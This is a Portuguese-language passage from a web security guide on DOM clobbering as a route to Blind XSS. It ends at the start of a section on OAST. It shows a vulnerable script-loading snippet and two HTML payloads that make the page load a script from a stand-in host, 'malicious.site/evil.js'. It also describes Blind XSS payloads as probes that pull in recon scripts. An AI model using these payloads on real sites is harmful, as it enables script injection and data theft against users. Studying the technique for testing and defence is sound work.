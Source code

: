### Advanced DOM Manipulation: DOM Clobbering

*DOM Clobbering* é uma técnica que explora a maneira como os navegadores criam referências globais para elementos HTML com atributos `id` ou `name`. Um atacante pode injetar HTML para sobrescrever ("*clobber*") variáveis ou objetos JavaScript do lado do cliente, alterando a lógica da aplicação.

**Core Concept**: Se uma aplicação tem um código como `var config = window.config || {};`, um atacante pode injetar um elemento HTML com `id="config"`. O navegador criará uma propriedade global `window.config` que aponta para esse nó do DOM, sobrescrevendo a variável esperada.

**Exploitation Example**: Considere um *script* que carrega dinamicamente outro *script* com base em um objeto de configuração:

```javascript
var config = window.config || { url: '/default.js' };
var script = document.createElement('script');
script.src = config.url;
document.body.appendChild(script);
```

Um atacante pode explorar isso com o seguinte *payload* HTML:

```html
<a id="config" name="url" href="//malicious.site/evil.js"></a>
```

No entanto, para *clobbering* mais robusto, especialmente quando múltiplos elementos são necessários, a técnica é ligeiramente diferente:

```html
<a id="config"><a id="config" name="url" href="//malicious.site/evil.js"></a>
```

1. **Clobbering window.config**: O primeiro elemento `<a id="config">` cria a propriedade global `window.config`. Como existem múltiplos elementos com o mesmo `id`, `window.config` se torna uma *HTMLCollection*.
2. **Clobbering config.url**: Dentro de uma *HTMLCollection*, os elementos podem ser acessados por seu atributo `name`. O segundo elemento `<a>` com `name="url"` torna-se acessível como `config.url`.
3. **Execução**: O `href` do segundo elemento é `//malicious.site/evil.js`. Portanto, a linha `script.src = config.url` resolve para o *script* malicioso do atacante, que é então carregado e executado.

Esta técnica é um vetor poderoso para *Blind XSS* quando a aplicação de *backend* vulnerável utiliza JavaScript do lado do cliente que é suscetível a *DOM Clobbering*.

Os *payloads* de *Blind XSS* mais eficazes são, em essência, "sondas ambientais". Eles são projetados para serem agnósticos ao contexto (poliglotas) e para sobreviver a transformações complexas (*mXSS*). O objetivo principal deles não é simplesmente executar um `alert()`, mas sim carregar e executar um *script* de reconhecimento mais robusto, como a sonda do *XSS Hunter*. Este *script* de reconhecimento é projetado para coletar a máxima inteligência sobre o ambiente de execução. A lógica por trás dessa evolução é uma resposta direta aos desafios inerentes ao ataque: a cegueira em relação ao contexto de execução, a presença provável de sanitizadores, e a necessidade crítica de inteligência pós-exploração. O *payload* inicial é meramente um mecanismo de entrega para uma ferramenta de reconhecimento muito mais poderosa.

## IV. The OAST Framework: Detecting the Undetectable
